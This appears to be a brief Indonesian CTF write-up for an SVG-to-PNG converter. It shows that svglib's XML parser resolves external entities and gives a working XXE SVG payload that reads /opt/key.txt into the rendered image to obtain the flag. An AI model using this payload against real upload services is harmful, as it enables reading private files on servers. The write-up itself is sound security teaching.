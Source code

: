 # SVG2PNG


Proses convert svg ke png menggunakan library `svglib`. Dimana secara internal `svglib` akan melakukan parsing XML menggunakan module `etree`dan yang di parsing adalah document root nya.


```python
def svg2rlg(path, **kwargs):
    "Convert an SVG file to an RLG Drawing object."
    ....
   # load SVG file
    parser = etree.XMLParser(remove_comments=True, recover=True)
    try:
        doc = etree.parse(path, parser=parser) <-- Bug
        svg = doc.getroot() <-- Bug
    except Exception as exc:
        logger.error("Failed to load input file! (%s)" % exc)
        return

```

Pada method `XMLParser` parameter `resolve_entities = False` tidak digunakan.
Oleh karena itu bisa dilakukan `XXE Injection`

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE svg [ <!ENTITY tasty SYSTEM "file:///opt/key.txt"> ]>
<svg width="520px" height="100px"  xmlns="http://www.w3.org/2000/svg">
    <g>
        <text font-size="13"  x="25" y="60">
           &tasty;
        </text>
    </g>
</svg>
```

Tinggal upload lalu akan mendapatkan flag.
